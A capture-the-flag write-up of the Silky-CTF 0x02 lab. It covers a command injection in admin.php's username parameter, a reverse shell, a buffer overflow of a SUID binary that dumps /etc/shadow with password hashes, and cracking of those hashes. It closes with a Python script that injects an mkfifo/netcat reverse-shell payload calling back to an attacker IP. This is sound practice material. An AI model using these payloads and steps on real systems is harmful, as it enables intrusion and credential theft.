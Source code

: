 # Silky-CTF 0x02

## Nmap
````
Starting Nmap 7.94 ( https://nmap.org ) at 2023-07-27 17:02 WEST
Nmap scan report for 10.0.2.33
Host is up (0.00047s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey: 
|   2048 eb:74:50:5c:6f:57:04:15:bd:8c:57:ff:eb:a2:9f:58 (RSA)
|   256 97:50:40:64:05:4e:57:44:7d:31:a7:60:84:0a:9d:5c (ECDSA)
|_  256 fe:6e:fa:67:54:96:a7:bd:54:45:10:30:1c:20:c3:61 (ED25519)
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Apache2 Debian Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.05 seconds
````

## Port 80
## Default Apache page

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/02bcf962-fc1e-4fe8-a57c-6513d694080b)


## Gobuster

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/85e64934-4d15-45cc-af37-6955be9e981b)


## /admin.php

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/84cd50c0-28ae-48e6-b7d6-aa97120e10af)


After pressing 'login', this form appears. No default credentials. Let's try SQLi. And analyze that image a bit since it seems weird. Steganography maybe?

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/d2262e0a-2e1a-439b-ae48-747681a187b9)

Ran a bunch of tools against the image (strings, text editors, hexeditor, etc...) and nothing.

Got command injection on 'username' GET parameter!

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/e70a95d4-3e27-4ac9-b3e0-240e611a996f)

#### Reverse Shell

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/d4eabb79-c6f5-48ef-bef4-6096ca226afd)


## Privilege Escalation

There is an interesting file with the SUID bit in our home folder. It appears to be simply catting /etc/shadow, but I'll try running it with Pspy in parallel

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/a758ef7d-b151-4639-9ba8-8f82fe62c36f)

Pspy doesn't show anything, but the program itself has an interesting output

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/8fafa8f7-1bfe-4764-a32a-52b5ff281a88)

Strings is a bit confusing, so I exfiltrated the file to my attacker machine

````
base64 cat_shadow -w0
(copy to clipboard, paste to a file inside my machine)
base64 -d b64Cat_shadow > cat_shadow
````

## Testing the binary

I fired up ghidra but I got nothing especial. I then tried a super long password in order to cause a buffer overflow, and the output on the left finally changed to something, previously it was always 0x0

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/d877b364-026f-4d51-80fe-9ca3b20f5fcc)

So, I know what I have to do... And I found the position of the 4 characters that change the password

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/6363903a-9763-4cf6-982b-4b512a8a9d50)


Sending AAAA in the payload part outputs the following

``0x41414141 != 0x496c5962``

Well, it's hex to ascii. Just have to switch the bytes around...

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/fa1c1fb4-4c2c-48ff-903a-1aa5f403382a)

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/cbfd53fc-1cb5-49c7-8366-c95fa41ea2a6)

And boom! This is on my system so that's why we got permission denied. Let's try it on the victim

````
www-data@Silky-CTF0x02:/home/silky$ ./cat_shadow 0000000000000000000000000000000000000000000000000000000000000000bYlI0000000
Trying to read /etc/shadow           
Succes      
Printing...
root:$6$L69RL59x$ONQl06MP37LfjyFBGlQ5TYtdDqEZEe0yIZIuTHASQG/dgH3Te0fJII/Wtdbu0PA3D/RTxJURc.Ses60j0GFyF/:18012:0:99999:7:::
daemon:*:18012:0:99999:7:::
bin:*:18012:0:99999:7:::
sys:*:18012:0:99999:7:::
sync:*:18012:0:99999:7:::
games:*:18012:0:99999:7:::
man:*:18012:0:99999:7:::
lp:*:18012:0:99999:7:::
mail:*:18012:0:99999:7:::
news:*:18012:0:99999:7:::
uucp:*:18012:0:99999:7:::
proxy:*:18012:0:99999:7:::
www-data:*:18012:0:99999:7:::
backup:*:18012:0:99999:7:::
list:*:18012:0:99999:7:::
irc:*:18012:0:99999:7:::
gnats:*:18012:0:99999:7:::
nobody:*:18012:0:99999:7:::
systemd-timesync:*:18012:0:99999:7:::
systemd-network:*:18012:0:99999:7:::
systemd-resolve:*:18012:0:99999:7:::
systemd-bus-proxy:*:18012:0:99999:7:::
_apt:*:18012:0:99999:7:::       
dnsmasq:*:18012:0:99999:7:::
avahi-autoipd:*:18012:0:99999:7:::
messagebus:*:18012:0:99999:7:::
usbmux:*:18012:0:99999:7:::
geoclue:*:18012:0:99999:7:::
speech-dispatcher:!:18012:0:99999:7:::
rtkit:*:18012:0:99999:7:::
pulse:*:18012:0:99999:7:::
avahi:*:18012:0:99999:7:::
colord:*:18012:0:99999:7:::
saned:*:18012:0:99999:7:::
Debian-gdm:*:18012:0:99999:7:::
hplip:*:18012:0:99999:7:::
silky:$6$F0T5vQMg$BKnwGPZ17UHvqZLOVFVCUh6CrsZ5Eu8BLT1/uX3h44wtEoDt9qA2dYL04CMUXHw2Km9H.tttNiyaCHwQQ..2T0:18012:0:99999:7:::
mysql:!:18012:0:99999:7:::
sshd:*:18012:0:99999:7:::
````

Let's unshadow and crack this. So I saved the important bits of /etc/shadow and /etc/passwd to my machine

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/fdeed623-9f36-4dc2-b20f-840a38882a3e)

And now we play the waiting game

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/61254f7c-3970-4226-a1d4-4d2ee4a9f7b5)

A few minutes later

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/509b80b2-c1a9-4a5d-83f3-da8b0e8684bb)

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/965711a5-e175-4531-8208-760a556cf98d)


Really fun CTF! But I'm not sure how this relates to the OSWE.
Anyway a few weeks later, here's the scripting automating the web part, which is pretty simple. I also re-did the PE part with ghidra, that was definitely a better and easier approach.

````
import requests
import sys

print("Open a listener on port "+ sys.argv[3]+ "!")

url = sys.argv[1] #http://10.0.2.8
ip = sys.argv[2] #10.0.2.4
port = sys.argv[3] #1337

requests.get(url + '/admin.php?username=a\'%23\'%20%7crm%20%2ftmp%2ff%3bmkfifo%20%2ftmp%2ff%3bcat%20%2ftmp%2ff%7c%2fbin%2fsh%20-i%202%3e%261%7cnc%20' + ip + '%20' + port + '%20%3e%2ftmp%2ff&password=x')
````
